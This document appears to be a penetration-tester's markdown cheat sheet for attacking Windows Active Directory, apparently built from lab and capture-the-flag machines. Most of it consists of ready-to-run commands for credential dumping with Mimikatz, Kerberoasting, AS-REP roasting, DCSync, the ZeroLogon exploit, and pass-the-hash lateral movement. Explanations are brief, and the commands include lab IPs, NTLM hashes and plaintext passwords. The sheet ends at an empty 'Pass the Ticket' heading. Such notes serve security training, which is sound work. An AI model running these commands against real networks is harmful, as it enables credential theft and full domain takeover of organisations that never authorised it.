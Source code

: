 # Enumeration

```bas
net user
net user /domain
net user jeff_admin /domain
net group /domain
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrent Domain()


Nmap –p 88 –script-args krb5-enum-users.realm='sv-dc01.svcorp.com',userdb=./Secli 10.11.1.20
```



### AD Dump

```bash
ldapdomaindump -u 'DOMAIN\john' -p MyP@ssW0rd 10.10.10.10 -o ~/Documents/AD_DUMP/
```



```bash
#Mimikatz
sekurlsa::logonpasswords  #show current cashed Password
mimikatz # sekurlsa::logonpasswords


```



# Authentication

**NTLM**

> NTLM authentication is used when a client authenticates to a server by IP address (instead of by hostname), or if the user attempts to authenticate to a hostname that is not registered on the Active Directory integrated DNS server. Likewise, third-party applications may choose to use NTLM authentication instead of Kerberos authentication.
>
> CHALLENGE BASED



**Kerberos**

> Basically, Kerberos is a network authentication protocol that works by using secret key cryptography. Clients authenticate with a Key Distribution Center and get temporary keys to access locations on the network. This allows for strong and secure authentication without transmitting passwords.
>
> TICKET BASED.

# Cashed Passwords

```bash
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
sekurlsa::tickets
kerberos::list /export

OR
klist


sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861

```

# Service Account Attacks

**SPN**

A service principal name (SPN) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. This allows a client application to request that the service authenticate an account even if the client does not have the account name.



**Brute-force**

```bash
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

```bash
$ net accounts # show lockout policy

```



# Kerbroasting

When you want to authenticate to some service using Kerberos, you contact the DC and tell it to which system service you want to authenticate. It encrypts a response to you with the service user’s password hash. You send that response to the service, which can decrypt it with it’s password, check who you are, and decide it if wants to let you in.

In a Kerberoasting attack, rather than sending the encrypted ticket from the DC to the service, you will use off-line brute force to crack the password associated with the service.

Most of the time you will need an active account on the domain in order to initial Kerberoast, but if the DC is configured with UserAccountControl setting “Do not require Kerberos preauthentication” enabled, it is possible to request and receive a ticket to crack without a valid account on the domain.

```powershell
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force

smbmap -H 10.10.10.100 -d active.htb -u administrator -p <Password>
psexec.py active.htb/administrator@10.10.10.100
```



# AS-REP Roasting

AS-REP roasting is a technique that allows retrieving password hashes for users that have `Do not require Kerberos preauthentication` property selected:

```powershell
C:\> kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/wordlist.txt --dc 10.10.10.175
C:\> GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175
C:\> hashcat -m 18200 hashes.aspreroast /usr/share/wordlists/rockyou.txt --force
C:\> evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```



# DCSync

```powershell
$ secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'

C:\> .\mimikatz 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator' exit

$ wmiexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175

$ psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175

$ evil-winrm -i 10.10.10.175 -u administrator -H d9485863c1e9e05851aa40cbb4ab9dff
```



# ZeroLogon

**POC**

```bash
git clone https://github.com/dirkjanm/CVE-2020-1472.git
```

```shell
python /opt/CVE-2020-1472/cve-2020-1472-exploit.py MONTEVERDE 10.10.10.172
secretsdump.py -just-dc -no-pass MONTEVERDE\$@10.10.10.172
evil-winrm -u administrator -i 10.10.10.172 --hash '100a42db8caea588a626d3a9378cd7ea'
```



# Lateral Movement

**Pass The Hash**

```bash
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

**Overpass the Hash**

```powershell
$ privilege::debug
$ sekurlsa::pth /user:alice /domain:sv-dc01.svcorp.com /ntlm:7f004ce6b8f7b2a3b6c477806799b9c0 /run:PowerShell.exe


```



**Pass the Ticket**


